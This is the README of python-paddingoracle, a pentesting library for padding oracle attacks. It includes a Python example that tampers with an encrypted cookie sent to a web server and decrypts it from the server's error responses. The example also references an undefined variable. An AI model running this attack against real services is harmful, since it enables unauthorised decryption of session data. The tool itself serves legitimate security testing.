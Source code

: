 python-paddingoracle: A portable, padding oracle exploit API
============================================================

python-paddingoracle is an API that provides pentesters a customizable
alternative to `PadBuster`_ and other padding oracle exploit tools that can't
easily (without a heavy rewrite) be used in unique, per-app scenarios. Think
non-HTTP applications, raw sockets, client applications, unique encodings, etc.

Usage:
------

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes as a
`bytearray <http://docs.python.org/2/library/functions.html#bytearray>`_ to 
**decrypt()**.

See below for an example (from `the example`_): ::

    from paddingoracle import BadPaddingException, PaddingOracle
    from base64 import b64encode, b64decode
    from urllib import quote, unquote
    import requests
    import socket
    import time

    class PadBuster(PaddingOracle):
        def __init__(self, **kwargs):
            PaddingOracle.__init__(self, **kwargs)
            self.session = requests.session(prefetch=True, timeout=5, verify=False)

        def oracle(self, data):
            somecookie = quote(b64encode(data))
            self.session.cookies['somecookie'] = somecookie

            while 1:
                try:
                    response = self.session.get('http://www.example.com/')
                    break
                except (socket.error, requests.exceptions.SSLError):
                    time.sleep(2)
                    continue

            self.history.append(response)

            if response.ok:
                logging.debug('No padding exception raised on %r', cookie)
                return

            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException

    if __name__ == '__main__':
        import logging
        import sys

        if not sys.argv[1:]:
            print 'Usage: %s <somecookie value>' % (sys.argv[0], )
            sys.exit(1)

        logging.basicConfig(level=logging.DEBUG)

        encrypted_cookie = b64decode(unquote(sys.argv[1]))

        padbuster = PadBuster()

        cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

        print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))


Credits
-------
python-paddingoracle is a Python implementation heavily based on `PadBuster`_,
an automated script for performing Padding Oracle attacks, developed by
Brian Holyfield of Gotham Digital Science.

.. _`the example`: https://github.com/mwielgoszewski/python-paddingoracle/blob/master/example.py
.. _`PadBuster`: https://github.com/GDSSecurity/PadBuster

